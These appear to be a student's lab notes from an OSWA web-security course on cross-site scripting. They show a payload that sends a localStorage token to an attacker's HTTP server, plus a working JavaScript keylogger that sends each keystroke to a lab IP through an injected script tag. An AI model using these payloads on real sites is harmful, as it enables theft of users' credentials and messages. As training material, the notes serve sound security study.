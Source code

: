 ![[Pasted image 20240802092446.png]]
Upon hitting `search` it gets translated to URL Encoding
![[Pasted image 20240802092609.png]]
Checking the `python3 -m http.server 80` we can see that the payload work
![[Pasted image 20240802092753.png]]
Now since we know that the payload works, check `Data in Local Storage` and hit `Render`
![[Pasted image 20240802093228.png]]
Check the `python3 -m http.server` and can see that the `localStorage` token was sent
![[Pasted image 20240802093357.png]]

---------

#### Keylogging

At times, attacking the application might not be the best course of action. If the user of the site is the larger target, it might be better to target the user instead. Keylogging is one of the best cross-site scripting methods to target users with as it's very difficult for a user to detect, but very effective in exfiltrating secrets.

Keylogging with XSS is limited though. We are able to keylog by creating an event listener for any keystroke, but it can only be set on the current document. That means if the user is on a different tab or in a different application, we won't be able to intercept their keystrokes. However, if the user is typing a private message or attempting to log in on our target site, we can capture those events.

The JavaScript event for keypresses is _keydown_, which will be passed into the _addEventListener_ function. This function also accepts a callback function to run for each keydown event. Within this function, we'll send the key that was pressed back to our server.

```bash
┌──(root💀gobots)-[05Aug2024 19:14:45]-[/home/kali/SUT/OSWA/xss]
└─# vim xss4.js

# Make sure to change the IP address
┌──(root💀gobots)-[05Aug2024 19:15:09]-[/home/kali/SUT/OSWA/xss]
└─# cat xss4.js 
function logKey(event){
        fetch("http://192.168.45.236/k?key=" + event.key)
}

document.addEventListener('keydown', logKey);

┌──(root💀gobots)-[05Aug2024 19:15:50]-[/home/kali/SUT/OSWA/xss]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
In the search option on the website drop the payload and hit search
payload
```bash
<script src="http://192.168.45.236:80/xss4.js"></script>
```
